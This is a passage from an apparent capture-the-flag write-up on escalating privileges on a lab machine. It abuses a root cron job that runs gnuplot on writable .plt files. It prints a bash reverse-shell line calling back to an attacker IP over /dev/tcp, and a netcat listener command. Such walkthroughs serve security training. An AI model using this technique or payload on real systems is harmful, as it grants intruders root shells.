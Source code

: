 * As can be seen, the script `getdata.sh`, located inside the `/opt/gnuplot` directory, is executed every minute with root privileges.

### **<strong><font color="DarkKhaki">Analyzing getdata.sh actions from pspy64:</font></strong>**

From the output captured by **pspy64**, we can observe that when the `getdata.sh` script is executed, it runs several commands like `cut`, `tr` and `grep` with root privileges. However the interesting command is the `find` command, which is shown below

```bash
find /opt/gnuplot -name *.plt -exec gnuplot {} 
```

* This command searches for plot files with a `.plt` extension in the directory `/opt/gnuplot`. It then executes the `gnuplot` binary with root privileges on all the retrieved plot files from the `/opt/gnuplot` directory.

Considering that we already have write privileges for this directory, we can create a malicious plot file with a `.plt` extension within it, that would provide us with a reverse shell running as root when executed using `gnuplot`.

### **<strong><font color="DarkKhaki">/opt/gnuplot:</font></strong>**

* As mentioned in the section above, the user `vdaisley` cannot read/view the content of the `/opt/gnuplot` directory. However, he has privileges to write inside the directory:

```bash
vdaisley@topology:/tmp$ find /opt -type d -writable 2>/dev/null
/opt/gnuplot
```

With that in mind, let's proceed with the privilege escalation process by following the steps below:

**1.** Create a plot file inside `/opt/gnuplot` that contains a bash reverse shell script: <br/>

```plot
!/usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/9999 0>&1'
```
> *Note the exclamation mark at the beginning of the script*

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-topology/2023-10-14 19_22_43-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>revshell.plt</i></center>
<br/>

> **NOTE** : *Don't forget to modify the IP address with your tun0 IP*

**2.** Start a netcat listener on port **9999**: <br/>

```bash
$ nc -nlvp 9999
```
